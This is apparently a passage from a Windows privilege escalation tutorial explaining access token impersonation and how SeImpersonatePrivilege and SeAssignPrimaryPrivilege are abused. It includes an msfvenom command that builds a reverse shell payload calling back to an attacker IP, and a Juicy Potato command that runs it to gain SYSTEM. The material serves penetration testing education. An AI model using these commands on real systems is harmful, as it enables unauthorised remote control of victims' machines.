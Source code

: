The client has the option to specify the highest level of impersonation (if any) that the server can use as a connection parameter. Both delegation and impersonation are actions with elevated privileges. Impersonation tokens are exclusively linked to threads and symbolize the security context of a client process. Typically, impersonation tokens are generated and linked to the current thread automatically through interprocess communication methods like DCE RPC, DDE, and named pipes.


# Token Privileges Abuse

In this section I will be listing some of the granted privileges that can be abused in an access token. A full list of techniques used on these privileges can be found here:  [Priv2Admin](https://github.com/gtworek/Priv2Admin) .

## SeImpersonatePrivilege

Any process holding this privilege can impersonate (but not create) any token for which it is able to gethandle. You can get a privileged token from a Windows service (DCOM) making it perform an NTLM authentication against the exploit, then execute a process as SYSTEM. Exploit it with juicy-potato, RogueWinRM (needs winrm disabled), SweetPotato, PrintSpoofer.

The process using, for example, juicy-potato would be the following:

1. Trick the “NT AUTHORITY\SYSTEM” account into authenticating via NTLM to a TCP endpoint we control.
2. Man-in-the-middle this authentication attempt (NTLM relay) to locally negotiate a security token for the “NT AUTHORITY\SYSTEM” account. This is done through a series of Windows API calls.
3. Impersonate the token we have just negotiated. This can only be done if the attackers current account has the privilege to impersonate security tokens. This is usually true of most service accounts and not true of most user-level accounts.
4. Run payload with impersonated token.

So we would need to have two files in the victim machine, a payload to execute and the juicy-potato executable that can be found here [juicy-potato](https://github.com/ohpe/juicy-potato) . The payload can be generated with msfvenom like this:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=80 -a x64 --platform Windows -f exe -o shell.exe
```

Then we would execute the payload with juicy-potato on the victim machine and set a listener on our machine to gain NT Authority System privileges.

```bash
C:\temp\JuicyPotato.exe -t * -p C:\temp\shell.exe -l 443
```

## SeAssignPrimaryPrivilege

It is very similar to SeImpersonatePrivilege, it will use the same method to get a privileged token.
Then, this privilege allows to assign a primary token to a new/suspended process. With the privileged impersonation token you can derivate a primary token (DuplicateTokenEx).
With the token, you can create a new process with 'CreateProcessAsUser' or create a process suspended and set the token (in general, you cannot modify the primary token of a running process).
